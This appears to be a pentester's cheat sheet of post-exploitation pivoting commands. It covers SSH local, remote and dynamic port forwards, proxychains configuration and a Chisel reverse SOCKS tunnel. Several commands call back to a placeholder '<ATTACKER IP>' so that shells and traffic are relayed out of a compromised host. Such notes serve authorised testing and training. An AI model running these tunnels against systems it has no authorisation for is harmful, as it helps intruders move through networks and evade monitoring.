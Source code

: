 # Post Exploitation
* [Pivoting](#Pivoting)
  * [Local Port forwarding](#Local-Port-forwarding)
  * [Remote port forwarding](#Remote-port-forwarding)
  * [Proxychains](#Proxychains)
* [File Transfers](#File-transfers)
* [Misc](#Misc)

## Pivoting
### Local Port forwarding
#### Port forwarding rinetd
```
apt install rinetd
cat /etc/rinetd.conf
```

#### SSH local port forward
```
ssh -N -L <LOCAL PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<TARGET IP>
```

#### SSH port forwarding over hop
```
ssh -N -L <BIND_ADRESS>:<PORT>:<TARGET IP>:<TARGET PORT> <USERNAME>@<HOP IP>
```

#### SSH port forwards for shells back over hop
- Execute on Jump host
```
ssh -N user@<ATTACKER IP> -p 22 -L 0.0.0.0:4444:127.0.0.1:4444
```

### Remote port forwarding
#### SSH forward local port of target back to our kali
```
ssh -N -R <BIND_ADRESS>:<PORT>:127.0.0.1:<TARGET PORT> <USERNAME>@<ATTACKER IP>
```

### Proxychains
- Prepend ```proxychains``` command before every command to send through the proxychain.
- Change proxychains config to the correct port and protocol! ```vim /etc/proxychains.conf```
- Example: ```socks4		127.0.0.1 9000```

#### SSH
```
sudo ssh -N -D 127.0.0.1:9000 <username>@<IP>
```

#### Chisel
- https://github.com/jpillora/chisel
```
/opt/chisel/chisel server -p 443 --socks5 --reverse
./chisel.exe client <ATTACKER IP>:443 R:socks
```
